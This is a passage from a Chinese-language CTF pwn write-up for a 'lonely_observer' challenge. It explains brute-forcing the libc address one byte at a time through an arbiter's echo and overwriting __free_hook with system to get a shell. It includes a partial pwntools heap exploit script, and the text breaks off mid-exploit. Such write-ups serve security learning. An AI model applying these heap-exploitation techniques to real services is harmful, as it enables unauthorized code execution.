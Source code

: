 ```
02:0008│   0x804b02b ◂— 0x0
... ↓
07:001c│   0x804b03f ◂— 0xf2b5a000
```

然后发送单字符过去，只有读满了0xf7（比如）这么多个字节，裁决器才会回显`done!`，因为裁决器`menu`里用的是`scanf`，所以可以一直发字符过去，最后在发送一个回车，这题即使`menu`输入的是非法的选项也不会输出任何东西，所以这样子可以一位一位的爆破出`libc`地址,这太精妙了，orz，最后同时改`__free_hook`为`system`来`getshell`

exp：(抄原文的

```python
from pwn import *

def cmd(c):
	p.recvuntil(">>")
	p.sendline(str(c))

def add(idx,sz,content):
	cmd(1)
	p.recvuntil(">>")
	p.sendline(str(idx))
	p.recvuntil(">>")
	p.sendline(str(sz))
	p.recvuntil("content:")
	p.send(content)
def dele(idx):
	cmd(2)
	p.recvuntil(">>")
	p.sendline(str(idx))
def show(idx):
	cmd(3)
	p.recvuntil(">>")
	p.sendline(str(idx))
def edit(idx,content):
	cmd(4)
	p.recvuntil(">>")
	p.sendline(str(idx))
	p.recvuntil("content:")
	p.send(content)
def main(host,port=20508):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./lonely_observer")
		# p = process("./mimic64")
		# p = process("./lonely_observer",env={"LD_PRELOAD":"./libc.so.6"})
		# gdb.attach(p)
	
	list64 = 0x602060
	bss64 = 0x602060+0x10*0x30
	list32 = 0x804b060
	bss32 = 0x804b060+0x8*0x30
	
	add(0,1,'a')
	add(1,1,'a')
	add(2,1,'a')
	dele(0)
	dele(1)
	edit(1,'\x00')
	add(3,0x10,p64(0x1000)+p64(list64+8*4))
	
	dele(2)
	edit(2,'\x00')
```